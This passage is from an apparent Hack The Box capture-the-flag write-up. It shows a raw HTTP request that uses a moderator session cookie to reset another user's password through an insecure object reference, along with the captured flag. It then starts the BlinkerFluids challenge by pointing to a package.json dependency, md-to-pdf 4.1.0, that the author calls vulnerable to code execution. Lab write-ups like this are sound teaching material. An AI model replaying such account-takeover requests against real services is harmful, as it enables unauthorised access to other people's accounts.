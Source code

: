 ```
POST /api/users/update HTTP/1.1
Host: 134.209.178.167:30580
Content-Length: 30
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
DNT: 1
Content-Type: application/json
Accept: */*
Origin: http://134.209.178.167:30580
Referer: http://134.209.178.167:30580/settings
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI4OTUzNzV9.lvNoW_CXaivBSOKLbzEZOVOAsY_9yG0lZ_vfa7nU3lg
Connection: close

{"password":"123","uid":"1"}
```
![](kryptos-9.png)

after that, we just log in at `/login` and successfully obtain the **FLAG**

![](kryptos-10.png)

**HTB{x55_4nd_id0rs_ar3_fun!!}**

### BlinkerFluids (300 points)

The value of this challenge is 300 points and +800 players have solved this challenge.

![](blinker-1.png)

We're given a website with a feature for creating an invoice using markdown and exporting it to PDF.

![](blinker-2.png)

In this challenge, the author gives us a source code, we could make use of this for analyzing the source code.

At **package.json** there's a vulnerable _dependency_ to RCE

```
{
    "name": "blinker-fluids",
    "version": "1.0.0",
    "description": "",
    "main": "index.js",
    "scripts": {
        "start": "node index.js"
    },
    "keywords": [],
    "author": "rayhan0x01",
    "license": "ISC",
    "dependencies": {
        "express": "4.17.3",
        "md-to-pdf": "4.1.0",
        "nunjucks": "3.2.3",
        "sqlite-async": "1.1.3",
        "uuid": "8.3.2"
    },
    "devDependencies": {
        "nodemon": "^1.19.1"
    }
}
```